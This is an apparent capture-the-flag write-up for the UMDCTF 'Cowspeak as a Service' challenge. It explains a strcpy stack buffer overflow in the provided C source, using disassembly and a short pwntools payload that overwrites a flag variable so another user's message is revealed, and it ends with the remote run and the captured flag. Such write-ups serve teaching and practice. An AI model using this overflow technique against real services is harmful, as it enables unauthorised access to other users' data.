



# Cowspeak as a Service



Ok, I gotta admit, this was a really fun challenge! Took me a bit, but I really enjoyed doing it! It was a good one!

We are given the [source code](main.c) of the binary. It uses a program called cowsay, which is a program that generates an ASCII image of a cow with a message. But this is an online service, hence the name Cowspeak as a Service.

Looking at the source, I found out that...

```c
int main() {
        char buf[1024];
        setbuf(stdout, NULL);
        puts("Welcome to Cowsay as a Service (CaaS)!\n");
        puts("Enter your message: \n");

        fgets(buf, 1024, stdin);
        moo(buf);

        return 0;
}
```

...it takes 1024 characters as input...

```c
void moo(char *msg)
{
        char speak[64];
        int chief_cow = 1;

        strcpy(speak, msg);
        speak[strcspn(speak, "\r\n")] = 0;
        setenv("MSG", speak, chief_cow);

        system("./cowsay $MSG");

}
```

...stores it in an environment variable, and then executes cowsay with your message, displaying the message as output.

I first thought that by using this you could execute bash code, because you can set flags for cowsay when connected to the server via netcat:

```
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

-f tux "Hello!"
 __________
< "Hello!" >
 ----------
   \
    \
        .--.
       |o_o |
       |:_/ |
      //   \ \
     (|     | )
    /'\_   _/`\
    \___)=(___/
```

But that is indeed not the case.

I read the challenge text again. It looks like we have to figure out how to read a message we didn't write.

If we find out how to not overwrite the environment variable, we will see other messages people wrote.

But how do we do that?

After some digging, I found this:

[](https://www.ibm.com/support/knowledgecenter/en/SSLTBW_2.2.0/com.ibm.zos.v2r2.bpxbd00/setenv.htm)
[](https://www.ibm.com/support/knowledgecenter/en/SSLTBW_2.2.0/com.ibm.zos.v2r2.bpxbd00/setenv.htm)

Hmm... If `change_flag` is 0, the message is not overwritten! But what is that in our script?

```c
char speak[64];
int chief_cow = 1;
...
setenv("MSG", speak, chief_cow);
```

It uses a variable called `chief_cow` to determine if this will be overwritten. It's time to do another buffer overflow!

You can compile the script by using `gcc`

```
$ gcc main.c -o main
```

Then, to see the assembly, you can use this command:

```
$ objdump -d -M intel main > main.asm
```

Let's look at `moo`:

```
0000000000001195 <moo>:
    1195:	55                   	push   rbp
    1196:	48 89 e5             	mov    rbp,rsp
    1199:	48 83 ec 60          	sub    rsp,0x60
    119d:	48 89 7d a8          	mov    QWORD PTR [rbp-0x58],rdi
    11a1:	c7 45 fc 01 00 00 00 	mov    DWORD PTR [rbp-0x4],0x1
    11a8:	48 8b 55 a8          	mov    rdx,QWORD PTR [rbp-0x58]
    11ac:	48 8d 45 b0          	lea    rax,[rbp-0x50]
    11b0:	48 89 d6             	mov    rsi,rdx
    11b3:	48 89 c7             	mov    rdi,rax
    11b6:	e8 75 fe ff ff       	call   1030 <strcpy@plt>
    11bb:	48 8d 45 b0          	lea    rax,[rbp-0x50]
    11bf:	48 8d 35 42 0e 00 00 	lea    rsi,[rip+0xe42]        # 2008 <_IO_stdin_used+0x8>
    11c6:	48 89 c7             	mov    rdi,rax
    11c9:	e8 b2 fe ff ff       	call   1080 <strcspn@plt>
    11ce:	c6 44 05 b0 00       	mov    BYTE PTR [rbp+rax*1-0x50],0x0
    11d3:	8b 55 fc             	mov    edx,DWORD PTR [rbp-0x4] ## int chief_cow = 1;
    11d6:	48 8d 45 b0          	lea    rax,[rbp-0x50]          ## char speak[64];
    11da:	48 89 c6             	mov    rsi,rax
    11dd:	48 8d 3d 27 0e 00 00 	lea    rdi,[rip+0xe27]        # 200b <_IO_stdin_used+0xb>
    11e4:	e8 67 fe ff ff       	call   1050 <setenv@plt>
    11e9:	48 8d 3d 1f 0e 00 00 	lea    rdi,[rip+0xe1f]        # 200f <_IO_stdin_used+0xf>
    11f0:	e8 7b fe ff ff       	call   1070 <system@plt>
    11f5:	90                   	nop
    11f6:	c9                   	leave  
    11f7:	c3                   	ret   
```

So, the character array `speak[64]` is at `rbp-0x50`, or 80 bytes below the base pointer. This is where we start writing data at.

`chief_cow` is at `rbp-0x4` or 4 bytes below the base pointer. `chief_cow` is 4 bytes in size.

We need to write bytes up to `chief_cow`, and then overwrite `chief_cow` with 0.

We can do this in python. I'm using [pwntools](https://docs.pwntools.com/en/stable/about.html) to do this.

```python
r.send(b'A' * (0x50 - 0x4)) ## Write bytes up to chief_cow
r.send(p64(0x0)) ## chief_cow == 0
```

And that's it! We should get the flag!

```
$ py sol.py rem
[+] Opening connection to 192.241.138.174 on port 9998: Done
[*] Switching to interactive mode
Welcome to Cowsay as a Service (CaaS)!

Enter your message:

 ________________________
< UMDCTF-{P5Th_Ov3rF10w} >
 ------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
[*] Got EOF while reading in interactive
```

Flag: `UMDCTF-{P5Th_Ov3rF10w}`
